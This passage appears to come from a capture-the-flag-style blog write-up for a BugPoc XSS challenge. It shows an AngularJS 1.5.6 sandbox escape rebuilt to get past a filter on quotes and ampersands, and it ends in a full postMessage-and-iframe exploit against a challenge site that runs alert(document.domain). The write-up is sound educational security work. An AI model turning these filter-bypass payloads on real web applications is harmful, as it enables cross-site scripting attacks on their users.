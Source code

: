 ![AngularJS injection]({{ site.url }}/assets/BugPoc/BugPoc-4.JPG)


### AngularJS sandbox escape and filter bypass ###

AngularJS from version 1.0 to version 1.5.9 has a sandbox, which [was removed in version 1.6](http://blog.angularjs.org/2016/09/angular-16-expression-sandbox-removal.html). The idea of the sandbox was to prevent attackers able to inject AngularJS code to automatically obtain arbitrary JavaScript injection. After an [infinite list of bypasses](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md) the AngularJS team just removed the sandbox. 🤷🏾‍♂️

Fortunately for us a known sandbox escape for version 1.5.6 is available:
{% highlight javascript%}
{% raw %}
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
{% endraw %}
{% endhighlight %}

Unfortunately for us, we can't use single quotes and we can't even use the common `srcdoc` trick to encode characters in `HTML entities` as the `&` character is blacklisted.

The only option is to use some `JavaScript-fu` and refactor the code not to use those characters!

The first step is to create a dict having as key a `String` and as value the `prototype` of the `constructor` of a `String`.
In JavaScript, we can create an empty string with `([]+[])` (stolen from [JSFuck](https://github.com/aemkei/jsfuck/blob/master/jsfuck.js#L20)) allowing us to easily rewrite the first part of the sandbox escape without `'` and `&`.

{% highlight javascript%}
{% raw %}
x = {}; x[([]+[])]=([]+[]).constructor.prototype; x[([]+[])].charAt=[].join;
{% endraw %}
{% endhighlight %}

For the second part, we can retrieve from the `String` `constructor` the `fromCharCode()` function and create a string out of the `ASCII` representation of characters.

{% highlight javascript%}
{% raw %}
$eval(x[([]+[])].constructor.fromCharCode(120,61,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41));
{% endraw %}
{% endhighlight %}

Wrapping everything together we have our final exploit

{% highlight html%}
{% raw %}
<iframe src="http://calc.buggywebsite.com/frame.html" name="target"></iframe>
<script>
    win = window.frames.target;
    setTimeout(function(){
        window.frames.target.postMessage(unescape('%3Ciframe%20srcdoc%3D%22%3Cscript%20src%3D/angular.min.js%3E%3C/script%3E%3Cdiv%20ng-app%3E%7B%7B%20x%20%3D%20%7B%7D%3B%20x%5B%28%5B%5D+%5B%5D%29%5D%3D%28%5B%5D+%5B%5D%29.constructor.prototype%3B%20x%5B%28%5B%5D+%5B%5D%29%5D.charAt%3D%5B%5D.join%3B%24eval%28x%5B%28%5B%5D+%5B%5D%29%5D.constructor.fromCharCode%28120%2C61%2C97%2C108%2C101%2C114%2C116%2C40%2C100%2C111%2C99%2C117%2C109%2C101%2C110%2C116%2C46%2C100%2C111%2C109%2C97%2C105%2C110%2C41%29%29%3B%7D%7D%3C/div%3E%22%3E%3C/iframe%3E'),"http://calc.buggywebsite.com/");
    }, 1000);
</script>
{% endraw %}
{% endhighlight %}
